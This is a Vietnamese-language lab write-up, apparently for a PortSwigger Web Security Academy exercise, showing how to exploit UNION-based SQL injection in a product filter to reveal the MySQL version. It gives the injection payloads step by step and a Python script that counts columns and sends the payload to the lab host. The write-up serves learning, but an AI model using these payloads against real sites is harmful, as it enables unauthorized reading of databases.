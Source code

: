 ### Phân tích

- Trang web chứa lỗ hổng SQL injection trong chức năng bộ lọc hiển thị sản phẩm. Kết quả được hiển thị trong giao diện trả về. Để giải quyết bài lab, chúng ta cần khai thác lỗ hổng nhằm truy xuất phiên bản hiện tại hệ quản trị cơ sở dữ liệu trong giao diện trang web, biết rằng hệ thống sử dụng MySQL hoặc Microsoft.
- mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/SyH68d25p.png)

### Khai thác

- như bài trước mình cần xác định số cột trước của table và với payload: `/filter?category=' UNION SELECT NULL, NULL-- ` không trả về error.

![image](https://hackmd.io/_uploads/SJpdwu39a.png)

Như vậy câu lệnh truy vấn trả về 2 cột dữ liệu. Tiếp theo tìm kiếm cột dữ liệu tương thích với kiểu chuỗi, payload: `/filter?category=' UNION SELECT 'column1', 'column2'-- `

![image](https://hackmd.io/_uploads/r1cJOOhca.png)

Cả hai cột dữ liệu đều có thể tận dụng để hiển thị thông tin khai thác.

![image](https://hackmd.io/_uploads/S1pQ__hqT.png)

Cuối cùng, truy xuất thông tin phiên bản hiện tại của hệ quản trị cơ sở dữ liệu MySQL, payload: `/filter?category=' UNION SELECT @@version, NULL-- `, bài lab hoàn thành:

![image](https://hackmd.io/_uploads/S1qTtO29T.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a6c0034043a22ba81fcd42a007f00a6.web-security-academy.net'

session = requests.Session()

# xác định số cột
for x in range(20):
    test_column = "' UNION SELECT " + "NULL," * x + "NULL-- "
    params = {'category' : test_column,}
    response = session.get(url + "/filter",params=params,verify=False,)
    if(response.status_code == 200):
        print("bảng có số cột là: ", (x+1))
        break

payload = "' UNION SELECT @@version, NULL-- "
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)
```